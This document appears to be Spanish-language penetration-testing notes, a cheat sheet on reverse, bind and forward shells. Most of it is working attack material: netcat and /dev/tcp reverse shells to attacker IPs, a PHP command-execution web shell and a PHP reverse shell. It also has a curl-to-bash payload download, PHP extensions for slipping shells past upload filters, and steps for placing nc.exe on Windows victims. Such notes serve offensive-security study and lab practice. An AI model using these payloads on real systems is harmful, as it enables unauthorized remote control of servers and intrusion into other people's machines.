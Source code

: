 # Diferentes tipos de ReverShell

Tags: #ReverShell #Comandos 

Tenemos diferentes tipos de Revershell este pagina Web:
* [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Revershells](https://www.revshells.com/). 

**Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

La mayoría de las paginas al momento de comprometerlas encontraremos el usuario **www-data** que es el encargado de gestionar la parte de servicios web.
## ReverShell, BindShell desde la URL de la Web

Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
# Para la Revershell en la URL de la web 

❯ nc -e /bin/bash IP 443
❯ bash -i >& /dev/tcp/IP/443 0>&1

	# Ip = Ip del atacante 

❯ bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"

# Donde debemos de urlencodear el '&'
	& = %26
```

```bash
❯ nc -nlvp 443 -e /bin/bash              # Ejecutamos desde la pagina web para ponernos en escucha y hacer una BindShell
```

## ReverShell, BindShell cuando subes un archivo a la Web

```bash 
# Diferentes extensiones PHP para subir 'Shells' maliciosas

* php
* php3
* php4
* php5
* pht
* phtm
* phtml
* phar
```

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```php
❯ nano cmd.php

	<?php 
		echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
	?>
```
Las etiquetas que usamos ahí son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de **Atacante**.

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

ReverShell en php
```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar
```

Para ponernos en escucha por Netcat en espera de la **ReverShell**:
1) Linux
2) Windows
```bash
❯ nc -nlvp 443 

❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

Para ejecutar Netcat y hacer la **BindShell**: 
```bash
❯ nc IP-Victima 443
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahí pode colocar comandos y conectarnos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```

### Binario para Windows

Este .exe lo debemos de subir a la maquina victima en Windows
```bash
❯ /usr/share/Seclists/Web-Shells/FuzzDB/nc.exe           # Netcat .exe nos ayuda a conseguir una ReverShell en Windows
```